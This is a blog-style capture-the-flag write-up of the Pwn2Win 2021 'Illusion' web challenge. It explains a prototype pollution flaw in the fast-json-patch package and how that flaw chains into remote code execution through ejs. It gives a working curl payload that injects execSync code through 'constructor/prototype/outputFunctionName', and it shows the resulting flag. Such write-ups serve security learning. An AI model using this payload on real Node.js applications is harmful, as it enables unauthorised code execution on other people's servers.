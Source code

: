 ```yaml
---
title: "Pwn2Win CTF 2021 Illusion writeup"
description: "Pwn2Win CTF 2021 Illusion writeup"
authors: [hi120ki]
tags: [CTF, Web, Web Security]
slug: posts/20210531
---
```


## Challenge

Laura just found a website used for monitoring security mechanisms on Rhiza's state and is planning to hack into it to forge the status of these security services. After that she will desactivate these security resources without alerting government agents. Your goal is to get into the server to change the monitoring service behavior.

Server: `nc illusion.pwn2win.party 1337`

<!-- truncate -->

## Solution

This is a simple web application that stores the status of services.

You have to execute `./readflag` to get the flag.

There is an API that can modify the status of services.

```javascript
// API
app.post("/change_status", (req, res) => {
  let patch = [];

  Object.entries(req.body).forEach(([service, status]) => {
    if (service === "status") {
      res.status(400).end("Cannot change all services status");
      return;
    }

    patch.push({
      op: "replace",
      path: "/" + service,
      value: status,
    });
  });

  jsonpatch.applyPatch(services, patch);

  if ("offline" in Object.values(services)) {
    services.status = "offline";
  }

  res.json(services);
});
```

```sh
curl -i -X POST \
  http://localhost:1337/change_status \
  --header "Content-type: application/json" \
  --data '{"cameras": "online","doors": "online","dome": "online","turrets": "offline"}'
```

Now, at first glance, these do not appear to be vulnerable.

And all the npm packages used seem to be up to date.

```json
{
  "dependencies": {
    "ejs": "^3.1.6",
    "express": "^4.17.1",
    "express-basic-auth": "^1.2.0",
    "fast-json-patch": "^3.0.0-1"
  }
}
```

However, if you check the package [fast-json-patch](https://github.com/Starcounter-Jack/JSON-Patch), you will find a Prototype Pollution vulnerability that is unfixed.

[Security Fix for Prototype Pollution - Starcounter-Jack/JSON-Patch](https://github.com/Starcounter-Jack/JSON-Patch/pull/262)

This web application uses `ejs`, which is known to be capable of RCE by Prototype Pollution.

[Unrestricted render option may lead to a RCE vulnerability - mde/ejs](https://github.com/mde/ejs/issues/451)

All the parts are in place. Here's the exploit code.

```sh
curl -i -X POST \
  http://admin:xxxx@illusion.pwn2win.party:1337/change_status \
  --header "Content-type: application/json" \
  --data '{"constructor/prototype/outputFunctionName": "a; return global.process.mainModule.constructor._load(\"child_process\").execSync(\"./readflag\"); //"}'

curl http://admin:xxxx@illusion.pwn2win.party:1337/
```

```
CTF-BR{d0nt_miX_pr0totyPe_pol1ution_w1th_a_t3mplat3_3ng1nE!}
```
